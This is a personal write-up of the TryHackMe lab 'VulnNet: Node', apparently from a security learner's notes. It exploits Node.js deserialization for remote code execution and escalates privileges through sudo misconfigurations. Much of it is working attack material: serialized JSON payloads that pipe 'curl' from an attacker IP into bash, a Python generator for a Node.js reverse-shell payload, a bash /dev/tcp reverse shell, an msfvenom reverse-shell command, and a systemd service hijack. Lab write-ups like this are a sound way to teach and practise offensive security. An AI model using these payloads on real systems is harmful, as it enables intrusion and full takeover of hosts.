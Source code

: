 
# VulnNet-Node Helped-through

Name:  VulnNet: Node
Date:  28/1/2023
Difficulty: Easy 
Description:  After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Better Description: [JAVASCRIPT](https://www.youtube.com/watch?v=Uo3cL4nrGOk)
Goals: 
- General learn machine for JS "experience" with Javascript; jwt abusing; node related madness
- Finish my other machines while this goes on
- Go the extra mile on the reverse shell
Learnt: 
- JAVASCRIPT; service file configuration; Echo > editor
- JS serialization is very particular and how to get those particulars
- sed wont let you have no temp file, but is useful for vi as the commit editor
Beyond Root:

- Test and research more booby traps 

![1080](rootwebpagedisclosurewazu.png)


## From Sometime ago...now in 2023 

I did do some of this machine up to user.txt it just never got finished and I need to finish this week beyond roots that got left behind before finishing XCT's [[Attended-Helped-Through]] this evening and hopeful doing maybe another HTB machine. [Alh4zr3d](https://www.youtube.com/watch?v=L_9UsWabfL4)'s Funday Sunday stream are very slow comparitive to the Thursday streams and therefore useful to finish the ever increasing list of Beyond Root stuff piling up. This wil be twinned with [[Hacker-vs-Hacker-Helped-Through]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. 
![](TryHackMe/Markdown/VulnNet-Node/Screenshots/ping.png)

```
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Wooldridge
```

![](thecookie.png)
I have developed alot in a year - if we could session hijack.
```bash
echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d | sed 's/Guest/Admin/g' | base64 | sed 's/=/%3d/g'
```
Instead we are admin of nothing:
![1080](adminofnothing.png)

- Deserialize 
	- What serialization functions and libraries are in use?
	- Error on an invalid serialized object? - Send

![1080](errorsarehalfacookieworthofenumeration.png)
My original:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl 10.8.73.218/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

Was missing from `_function` - but I also dont want npm - [From](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
```
I used curl to be cool, the reason it did not work the first time is the the port 80 on the Attackbox is in use. I Encoded in base64 with BurpSuite. Also I did not escape quotes 

```bash
curl -b 'InsidXNlcm5hbWUiOiJfJCRORF9GVU5DJCRfcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgaHR0cDovLzEwLjExLjMuMTkzL3NoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pIiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifSI%3D' http://10.10.204.7:8080
```

Al inform the stream that the main issue is that this not signed and the serialization is not checking the type of data.

![](chatgptasatranslator.png)

Enjoy the python3 version by ChatGPT
```python
import sys

# Uopdated original from https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py
# With the help of ChatGPT

if len(sys.argv) != 3:
    print("Usage: %s <LHOST> <LPORT>" % (sys.argv[0]))
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print("[+] LHOST = %s" % (IP_ADDR))
print("[+] LPORT = %s" % (PORT))
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print("[+] Encoding")
PAYLOAD = charencode(NODEJS_REV_SHELL)
print("eval(String.fromCharCode(%s))" % (PAYLOAD))
```

I used both Al's, the [ocortesl](https://ocortesl.github.io/thm-writeu), without need to get the npm package: 
- Pararenthesis! 
- `\t` and `\n` helped me but not al. 
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
```

I was really set on the making the original attempt work:
![](rshell.png)

## PrivEsc

NPM!
![](Irecentlydidthis.png)
Weirdness on the box
![](homedirforwwweirdness.png)

NPM without password on sudo can do this: [GTOFbins](https://gtfobins.github.io/gtfobins/npm/#sudo)
```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
Permission denied
![](permissiondenied.png)

Chmod granted - Idiomentary helps
```bash
chmod -R 777 /tmp 2>/dev/null
```

![](serv.png)

More sudo no passwording
![](moresudo.png)

The shell is weird as we have a tty inside of a tty.
```bash
find / -type f -name vulnnet-auto.timer 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
# find the job in the service above
find / -type f -name vulnnet-job.service 2>/dev/null
/etc/systemd/system/vulnnet-job.service
```

I botch the shell restart brain and box - Plus I need to time to think up all the mad linux battlegrounds trick I can think of. 

-On return -

First scape the tty inside a tty with background shell
```bash
cd /tmp
echo "bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1'" > /srvshell.sh
chmod 777 /tmp/srvshell.sh
./srvshell.sh &
```

To avoid the exiting the nano issue with shell just use `sed` to create a replace command for vi
```bash
# See what is there
cat /etc/systemd/system/vulnnet-job.service
# Test changes
cat /etc/systemd/system/vulnnet-job.service | sed 's/ExecStart=\/bin\/df/ExecStart=\/dev\/shm\/rootshell/g'
# Tranfer a shell over for 
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -f ELF > rootshell
# remember to chmod the shell!
vi /etc/systemd/system/vulnnet-job.service
:%s/ExecStart=\/bin\/df/ExecStart=\/dev\/shm\/rootshell/g
# Press enter
:wq
# Then PrivEsc
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl stop vulnnet-auto.timer
```

![](root.png)

## Beyond Root

See [[Attended-Helped-Through]] as it also has another just doing them the same day will be easier and get to Test on BSD linux and alternatives.